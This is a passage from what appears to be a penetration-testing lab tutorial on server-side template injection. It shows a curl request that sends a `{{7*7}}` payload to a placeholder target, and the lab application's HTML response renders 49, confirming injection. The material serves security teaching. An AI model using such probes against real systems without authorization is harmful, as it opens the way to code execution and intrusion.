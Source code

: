```shell-session
		<div id="icons">
			<a class="openWindow" data-id="0">Run</a>
			<a class="openWindow" data-id="1">Welcome</a>
		</div>
		<font size="5px"><a href="https://html5-templates.com/" rel="nofollow" target="_blank" id="templateLink">&copy; HTML5-Templates.com</a></font>
		<!-- You can use this template freely if you leave a visible link to HTML5-Templates.com -->
	</div>
</body>
```

It doesn't look like the application evaluated this expression either. What about `{{7*7}}`?

  SSTI Exploitation Example 3

```shell-session
Pangulin@htb[/htb]$ curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={{7*7}}"

<!DOCTYPE html>
<html lang="en">
<style type="text/css">
	#command {
		resize: horizontal;
		background-color : transparent;
		border-color: transparent;
		font-size: 15px;
		width: 200px;

	}
	#command:active {
        width: auto;   
    }
</style>
<head>
	<meta charset="utf-8">
    <meta http-equiv="x-ua-compatible" content="ie=edge">
	<meta name="viewport" content="width=device-width, initial-scale=1" />
	<link rel="stylesheet" href="/static/css/jquery-ui.css">
	<script src="/static/js/jquery-1.12.4.js"></script>
	<script src="/static/js/jquery-ui.js"></script>
	<script src="/static/js/script.js"></script>	
	<link rel="stylesheet" type="text/css" href="/static/css/style.css" />
	<title>Windows</title>
</head>
<body>
	<div id="desktop">
		<div class="window" data-title="Run">
			<form action="/execute" method="get">
				<a>C:\><input type="text" name="cmd" id="command"></a>
				<br/>
				<a>49</a>
				<br/>
				<input type="submit" value="execute">
			</form>
		</div>
		<div class="window" data-title="Windows">
			<h1>Windows</h1>
			<p>Minimize the windows to the taskbar, make them full screen or close them.</p>
			<p>Drag the title bar to move the windows or resize them from the bottom right corner.</p>
		</div>
		
		<div id="taskbar">		
```